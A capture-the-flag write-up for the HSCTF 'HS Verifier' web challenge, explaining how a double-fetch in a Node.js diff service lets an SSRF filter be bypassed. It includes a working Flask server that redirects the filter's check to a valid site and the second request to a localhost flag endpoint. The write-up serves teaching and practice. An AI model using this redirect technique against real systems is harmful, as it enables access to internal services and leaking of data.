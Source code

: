 ```yaml
---
title: "HSCTF - HS Verifier"
date: 2022-05-25
mathjax: true
tags: [hsctf, web]
draft: false
---
```


{{< lead >}}
This challenge was part of a CTF event hosted by [HackerSchool](https://hackerschool.io).
{{< /lead >}}

![logo](logo.png)

## Challenge statement

Being a web challenge, a website is provided in the statement, alongside the application's source code and a Dockerfile.

![website](website.png)

The website asks for two links, and after clicking "Go!", displays a diff between the two pages.

{{< figure src="diff.png" caption="Difference between example.com and github.com" >}}

In the source code we can find the following endpoints for the application:

```javascript
app.get('/', (req, res) => {
	res.render('index');
});

app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});

app.post('/diff', async (req, res) => {
	let { url1, url2 } = req.body
	if(typeof url1 !== 'string' || typeof url2 !== 'string'){
		return res.send({error: 'Inválido formato'})
	};
	let urls = [url1, url2];
	for(url of urls){
		const valid = await validifyURL(url);
		if(!valid){
			return res.send({error: `Request to ${url} was denied`});
		};
	};
	const difference = await diffURLs(urls);
	res.render('diff', {
		lines: difference
	});

});
```

From this snippet, it is clear that the objective of the challenge is to somehow get a request to the `/flag` endpoint coming from **localhost**.
This can be achieved by tricking the web server into perform that request through an [SSRF](https://portswigger.net/web-security/ssrf) vulnerability.

## Working the problem

At first it may seem that simply placing "localhost" on one of the main page's inputs, would display the flag in the diff.
However, when attempting that strategy, the server sends back this response:

![denied](denied.png)

This is due to the `validifyURL` function, also provided in the source code:

```javascript
async function validifyURL(url){
	valid = await fetch(url, {agent: ssrfFilter(url)})
	.then((response) => {
		return true
	})
	.catch(error => {
		return false
	});
	return valid;
};
```

There is an SSRF filter implemented, which blocks any requested directed to itself. Providing the public IP also doesn't work.
The solution is to somehow provide a link that passes the SSRF filter, but still makes a call to localhost when performing the diff.
Note that the response from the SSRF filter is ignored.
This means that the application must make another request in order to perform the diff, as is confirmed in the `diffURLs` function.

```javascript
async function diffURLs(urls){
	try{
		const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
		const pageTwo = await fetch(urls[1]).then((r => {return r.text()}));
		return Diff.diffLines(pageOne, pageTwo)
	} catch {
		return 'error!'
	}
};
```

## Solution

By providing a link to a controlled server, it is possible to redirect the SSRF filter's request to a valid URL and then redirect the next request to localhost.
A way to achieve this is through a simple [Flask](https://flask.palletsprojects.com/en/2.1.x/) application:

```python
from flask import Flask, redirect, g


app = Flask(__name__)

local = False

@app.route('/')
def index():
    global local
    if not local:
        local = True
        return redirect("https://github.com")
    else:
        return redirect("http://127.0.0.1/flag")



app.run('0.0.0.0', 5000)
```

Providing this web server's link to the site will display the flag on the page.

{{< alert >}}
**NOTE**: with this implementation, only one of the links can point to the flask application
{{< /alert >}}

{{< figure src="flag.png" caption="The censored flag is shown at the bottom of the page" >}}
